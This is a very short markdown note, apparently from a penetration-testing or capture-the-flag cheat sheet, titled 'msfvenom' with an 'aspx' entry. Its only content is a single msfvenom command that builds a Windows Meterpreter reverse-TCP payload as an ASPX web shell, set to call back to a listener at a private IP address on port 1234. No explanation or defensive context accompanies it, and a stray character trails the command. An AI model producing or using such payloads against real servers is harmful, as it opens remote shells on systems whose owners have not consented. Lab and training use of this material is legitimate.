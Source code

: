 # msfvenom

## aspx
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.23 LPORT=1234 -f aspx -o shell.aspx`j